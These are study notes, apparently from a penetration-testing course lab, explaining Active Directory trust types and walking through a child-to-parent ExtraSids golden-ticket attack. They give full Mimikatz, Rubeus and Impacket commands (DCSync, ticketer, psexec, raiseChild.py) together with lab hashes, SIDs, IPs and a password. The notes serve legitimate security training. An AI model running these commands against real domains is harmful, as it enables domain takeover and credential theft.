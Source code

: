 
- When a company acquires another, they inherit their security posture, good or bad.

> A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication. An organization can create various types of trusts:

## Different types of trusts:
1. **Parent-child**: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain `corp.inlanefreight.local` could authenticate into the parent domain `inlanefreight.local`, and vice-versa.
2. **Cross-link**: A trust between child domains to speed up authentication 
![[Pasted image 20250630224647.png]]
3. **Tree-root**: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.

#### Transitive Trusts:
Trust is extended to objects that the child domain trusts.
```
if `Domain A` has a trust with `Domain B`, and `Domain B` has a `transitive` trust with `Domain C`, then `Domain A` will automatically trust `Domain C`.
```

#### Non-Transitive Trusts:
```
The child domain itself is the only one that is trusted. Nothing the child domain trusts additionally is trusted.
```

#### One-Way Trusts:
```
Users in a `trusted` domain can access resources in a trusting domain, not vice-versa.
```

#### Bidirectional Trust:
```
A <-> B
```


> ==If someone wanted to target your organization, they could also look at the other company you acquired for a potentially softer target to attack, allowing them to get into your organization indirectly.==

"I have performed many penetration tests where this was the case: I was unable to find a foothold in the principal domain, but was able to find a flaw in a trusted domain which, in turn, gave me a foothold, or even full admin rights in the principal domain."

# Attacking Domain Trusts Child -> Parent - From Windows:
|Term|Summary|
|---|---|
|**SID History**|Attribute storing old SIDs to maintain access across migrations|
|**SID Injection**|Attacker adds privileged SID to a user’s SID history to escalate|
|**Golden Ticket**|Forged Kerberos TGT using KRBTGT hash — grants long-term domain access|
|**ExtraSIDs Attack**|Used to escalate from a child to parent domain in the same forest|
|**KRBTGT Hash**|Key to creating valid Golden Tickets; should be rotated after compromise|
|**DCSync Attack**|Lets attacker pull password hashes (including KRBTGT) from a Domain Controller|
## ExtraSids Attack - Mimikatz

```Powershell
# How the ExtraSid attack plays out

# 1. On the domain that you control, get the KRBTGT hash with Mimikatz

mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Get the Child SID:
Get-DomainSID

# Get the SID from the parent domain:
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Now you have what you need:
1. KRBTGT hash for the child domain
2. SID of the Child domain
3. SID of the Admin group you want to take advantage of in the parent domain
4. The name of the target user in the child domain (does not need to be a real user!)
5. The FQDN of the child domain


# Now we can run the command to get access to the DC on the parent domain:

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

```

## ExtraSids Attack - Rubeus

```PowerShell
# Using the above information

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

```


# Attacking Domain Trusts Child -> Parent - From Linux:
- We still need the same information as Windows, we just need to get it in another way.

They are:
1. The KRBTGT hash for the child domain
2. The SID for the child domain
3. The name of a target user in the child domain (does not need to exist!)
4. The FQDN of the child domain
5. The SID of the Enterprise Admins group of the root domain

```shell
# Once you have full control of the child domain (In this case access to the htb-student_adm account, you can conduct a DCSync attack, requesting the krbtgt accounts hash)

# password is HTB_@cademy_stdnt_admin!

secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

# Now we need to get the SID of the child domain with lookupsid.py

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240

# Now get the SID of the parent domain and the group we want our malicious account to be added to:

lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"


```
#### Now we have what we need:
- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

### Now construct a golden ticket using ticketer.py
```shell

ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

# Now set KRB5CCNAME environment variable:

export KRB5CCNAME=hacker.ccache 

```

#### Now we can check if we can authenticate to the PARENT domain's DC using impacket's version of PSexec:
```shell

psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

```

#### raiseChild.py will automate this process!
***raiseChild.py:***
- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

```shell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
